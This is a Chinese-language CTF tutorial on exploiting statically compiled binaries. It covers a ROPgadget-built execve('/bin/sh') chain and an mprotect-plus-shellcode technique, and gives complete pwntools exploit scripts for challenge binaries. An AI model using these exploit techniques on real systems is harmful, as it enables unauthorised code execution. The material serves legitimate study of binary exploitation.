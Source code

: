 # 静态编译

### 1. 栈足够大的情况下

1. 程序在ida打开后，左侧的函数栏目没有红色（系统调用的函数），而只有一些静态函数，通常这类文件的大小会必普通的pwn题程序要大得多。

   ![image-20240701143838909](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407011438002.png)

2. 这种静态编译的题没有调用库函数，也就没有使用libc，自然我们也没法泄漏libc的基地址，可以直接使用 `ROPgadget` 来搜索，利用程序中的一些指令片段，来拼凑出 `call system("/bin/sh")` 的效果。

   ```shell
   ROPgadget --binary rop --ropchain
   ```

3. 搜索到的指令如下，指令平凑起来就相当于一个 `call system("/bin/sh")` 函数，在栈溢出的返回地址处填入这串指令的地址（也可以直接在ida中看到）即可顺利执行：

   ![image-20240701144642727](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407011446835.png)

   ![image-20240701145054442](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407011450485.png)

4. EXP：

   ```python
   from pwn import *
   from struct import pack
   context(os='linux', arch='amd64', log_level='debug')
   
   # p1=remote("node5.buuoj.cn",29851)
   p1 = process("./rop")
   
   p = b'a'*(0x0c+4)
   #下面是各种指令的地址
   p += pack('<I', 0x0806ecda) # pop edx ; ret
   p += pack('<I', 0x080ea060) # @ .data
   p += pack('<I', 0x080b8016) # pop eax ; ret
   p += b'/bin'
   p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
   p += pack('<I', 0x0806ecda) # pop edx ; ret
   p += pack('<I', 0x080ea064) # @ .data + 4
   p += pack('<I', 0x080b8016) # pop eax ; ret
   p += b'//sh'
   p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
   p += pack('<I', 0x0806ecda) # pop edx ; ret
   p += pack('<I', 0x080ea068) # @ .data + 8
   p += pack('<I', 0x080492d3) # xor eax, eax ; ret
   p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
   p += pack('<I', 0x080481c9) # pop ebx ; ret
   p += pack('<I', 0x080ea060) # @ .data
   p += pack('<I', 0x080de769) # pop ecx ; ret
   p += pack('<I', 0x080ea068) # @ .data + 8
   p += pack('<I', 0x0806ecda) # pop edx ; ret
   p += pack('<I', 0x080ea068) # @ .data + 8
   p += pack('<I', 0x080492d3) # xor eax, eax ; ret
   p += pack('<I', 0x0807a66f) # inc eax ; ret
   p += pack('<I', 0x0807a66f) # inc eax ; ret
   p += pack('<I', 0x0807a66f) # inc eax ; ret
   p += pack('<I', 0x0807a66f) # inc eax ; ret
   p += pack('<I', 0x0807a66f) # inc eax ; ret
   p += pack('<I', 0x0807a66f) # inc eax ; ret
   p += pack('<I', 0x0807a66f) # inc eax ; ret
   p += pack('<I', 0x0807a66f) # inc eax ; ret
   p += pack('<I', 0x0807a66f) # inc eax ; ret
   p += pack('<I', 0x0807a66f) # inc eax ; ret
   p += pack('<I', 0x0807a66f) # inc eax ; ret
   p += pack('<I', 0x0806c943) # int 0x80
   p1.sendline(p)
   p1.sendline(b"cat flag")
   p1.interactive()
   
   ```




### 2.  栈不够大，需要往内存页面上写入mprotect函数修改内存页面权限

1. ida打开，发现存在栈溢出，但是溢出的长度只有 **0x64-0x12-0x4*2** ,不足以在栈上写入有地址，所以要改变方法：往内存页面上写入shellcode，再执行。

   ![image-20240701202949147](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407012029193.png)

2. 往内存上写数据前，要修改写入页面的权限为 **可读可写可执行** ，mprotect函数的声明，参数说明如下：

   **注意** ：再指定内存页面的起始地址时要保证 **对齐** 到页面边界上，即addr的第三位必须是 **000(4) = 000000000000** 保证其能被 **4k = 1000000000000(2) = 0x1000(16)** 整除,长度为**4k=0x1000** 的整数倍否则将报错，最后内存保护标志可以按数字标记，将各个权限数字相加即可 **可读可写可执行 = 0x7**。

   ```c++
   #include <sys/mman.h>
   int mprotect(void *addr, size_t len, int prot);
   ```

   ![image-20240701203738010](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407012037081.png)

   ![image-20240701205311443](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407012053485.png)

3. 修改完内存页面权限后就可以往上写入shellcode代码，利用read函数，传入页面的地址，写入的大小，还有选项，最后read返回执行写入的汇编代码。

```python
from pwn import *
context(arch = 'i386',os = 'linux',log_level = 'debug')
io = process('./pwn')
# io = remote('pwn.challenge.ctf.show',28208)
elf = ELF('./pwn')
mprotect = elf.sym['mprotect']
read_addr = elf.sym['read']

# pop_ebx_esi_ebp_ret = 0x080a019b   # 0x080a019b : pop ebx ; pop esi ; pop ebp ; ret
# pop_ebx_esi_ebp_ret = 0x08056194   # 0x08056194 : pop eax ; pop edx ; pop ebx ; ret
# pop_ebx_esi_ebp_ret = 0x08061c3b    # 0x08061c3b : pop edi ; pop esi ; pop ebx ; ret
pop_ebx_esi_ebp_ret = 0x08061c3b    # 0x08069cbd : pop esi ; pop edi ; pop ebx ; ret

#页面起始地址
M_addr = 0x080Db000
#页面大小
M_size = 0x1000
# 权限
M_proc = 0x7

#调用protect函数修改内存页面M_addr位置的权限，调用完成后利用pop+ret指令衔接到read函数
payload = cyclic(0x12+4) + p32(mprotect)
payload += p32(pop_ebx_esi_ebp_ret) + p32(M_addr) + p32(M_size) + p32(M_proc)
#调用read函数向M_addr上写入shellcode，最后退出read函数时ret调用M_addr处的shellcode代码
payload += p32(read_addr)+ p32(M_addr) + p32(0) + p32(M_addr) + p32(M_size)

#先发送一次payload，修改完权限，并且再read函数的等待输入
io.sendline(payload)
shellcode = asm(shellcraft.sh())
#第二次发送payload，给read函数写入shellcode代码
io.sendline(shellcode)
io.recv()
io.interactive()

```

